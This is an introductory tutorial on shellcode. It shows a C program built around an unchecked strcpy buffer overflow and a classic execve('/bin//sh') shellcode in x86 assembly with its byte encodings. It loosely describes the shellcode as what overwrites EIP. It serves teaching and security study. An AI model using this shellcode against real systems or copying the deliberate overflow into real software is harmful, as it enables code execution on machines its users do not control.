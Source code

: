 
# What the f*ck is shellcode?

In a nutshell shellcode is a small piece of code used as a payload for exploitation of software. 

Typically, shellcode is written in assembly language and is designed to be injected into memory. Its primary use is arbitrary code execution; however, it can be used for multiple other functions. 

The purpose of using shellcode is to gain control of a system by injecting the said shellcode into the vulnerable process. It is usually carefully constructed and designed specifically for the individual attack it accomplishes. This is important because a lot of the time, shellcode must be refined per system. 

# How does Shellcode work?

To explain how shellcode works I first need to provide you with an exploitable program. For this we will use a basic program that is vulnerable to a buffer overflow due to not checking lengths passed. The code is below:

```c
#include <stdio.h>
#include <string.h>


void no_length_check_function(char *input) {
    // add a buffer
    char buffer[100];
    // do not check the length of the input and copy
    strcpy(buffer, input);
}

// create the 'entrypoint' for the program that takes argc (argument count) and argv (argument variables) as the arguments 
int main(int argc, char *argv[]) {
    // pass the first argv (argv[1]) which will be the second argument IE: file.exe ARGUMENT1 to the vulnerable function
    no_length_check_function(argv[1]);
    // return becuase it's an int
    return 0;
}
```

This program, when compiled allows an attacker to control the EIP by passing more than 100 characters as the argument. We can create a pseudo shellcode to overwrite the EIP with the following:


```asm
xor eax, eax        ;"\x31\xc0"             
push eax            ;"\x50"                  
push "//sh"         ;"\x68\x2f\x2f\x73\x68"  
push "/bin"         ;"\x68\x2f\x62\x69\x6e"  
mov ebx, esp        ;"\x89\xe3"              
push eax            ;"\x50"                  
push ebx            ;"\x53"                  
mov ecx, esp        ;"\x89\xe1"              
cdq                 ;"\x99"                  
mov al, 0xb         ;(execve syscall number) ;"\xb0\x0b"              
int 0x80            ;(trigger syscall) ;"\xcd\x80"              
```
